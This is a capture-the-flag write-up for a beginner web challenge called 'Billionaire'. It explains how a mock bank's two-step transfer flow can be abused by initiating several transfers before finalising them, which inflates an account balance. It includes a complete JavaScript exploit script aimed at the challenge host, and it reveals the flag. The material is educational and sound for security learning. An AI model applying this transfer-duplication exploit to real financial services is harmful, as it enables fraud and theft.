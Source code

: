 ```yaml
---
title: "Billionaire"
description: "RISC intro2web challenge 5"
pubDate: "Aug 27 2025"
heroImage: "/hero/index-money_Tom_678.webp"
tags: ["cyber", "php", "javascript", "ctf", "exploit"]
canonical: "https://writeups.urisc.club/web/5_billionaire/"
---
```


## Challenge description

I wanna be a billionaire so f\*cking bad / Buy all of the things I never had

"Billionaire" - Travie McCoy ft Bruno Mars

---

## Approach

At `accounts.php` we see a banner that reads:

> Leftman Brothers Super Secret Club
>
> Locked — requires total balance in a single account of at least $1,000,000,000.00.

So we want to somehow get 1 Billion dollars in our account.

We can create a second checking account at `open_account.php`.

If we transfer some money from our first account to our second, we see that there are two steps to each transfer.

1. `initiate_transfer.php` has us choose the amount and where to send it.
2. `finalise_transfer.php` has us confirm the details.

Initiate transfer wont let us send more money than we have, but doesnt take the money out of our account, this means we can initiate multiple transfers and finalise them all afterwards.

Analysing the network tab in the browser dev tools we can see that:

- `initiate_transfer` needs an account id, account name, and amount. (and a description but we can omit it)
- `finalise_transfer` needs a transfer id (tid)

All of these details can be extracted from the HTML of prior steps.

So if we get our account details from `transfer.php`, initiate multiple transfers to `initiate_transfer`, get the transfer ids, and finalise them all at `finalise_transfer`, we should be able to increase our balance.

### Javascript implementation:

```javascript
const URL = "http://leftmanbrothers.ctf.urisc.club/netbank/";

async function get_accounts() {
	const transfer_page = await fetch(`${URL}transfer.php`);
	const transfer_html = await transfer_page.text();

	const regex = /"(\d+)">\s*((?:LB-)?\d+) — \$(-?[\d,.]+)/g;

	const accounts = [];

	let match;
	while ((match = regex.exec(transfer_html))) {
		accounts.push({
			id: match[1],
			name: match[2],
			balance: parseFloat(match[3].replaceAll(",", "")),
		});
	}

	return accounts;
}

async function post(url, params) {
	const response = await fetch(`${URL}${url}.php`, {
		headers: {
			"content-type": "application/x-www-form-urlencoded",
		},
		body: params,
		method: "POST",
	});

	return await response.text();
}

while (true) {
	const accounts = await get_accounts();

	// account with most money
	let from_account = accounts.reduce((prev, current) =>
		prev.balance > current.balance ? prev : current,
	);

	// any other account
	let to_account = accounts.find((account) => account !== from_account);

	console.log("Balance: " + from_account.balance);
	if (from_account.balance >= 1_000_000_000) {
		console.log("We're rich!");
		break;
	}

	let tids = [];
	// start transaction
	const params = `from_account=${from_account.id}&to_account=${to_account.name}&amount=${from_account.balance}`;
	for (let i = 0; i < 3; i++) {
		const html = await post("initiate_transfer", params);
		const match = html.match(/"tid" value="(\d+)"/);
		const tid = match[1];
		tids.push(tid);
	}

	// finalize transactions
	for (let i = 0; i < 3; i++) {
		const params = `tid=${tids[i]}`;
		await post("finalise_transfer", params);
	}
}
```

Returning to `accounts.php`, we can see the banner has changed:

> Congratulations, high roller. Your access is unlocked.
>
> Club Password: RISC{livin_the_luxury_lifestyle_fr_fb3c001ee2725c0c3f5e3a39059f75c6}

Our flag is:

```
RISC{livin_the_luxury_lifestyle_fr_fb3c001ee2725c0c3f5e3a39059f75c6}
```
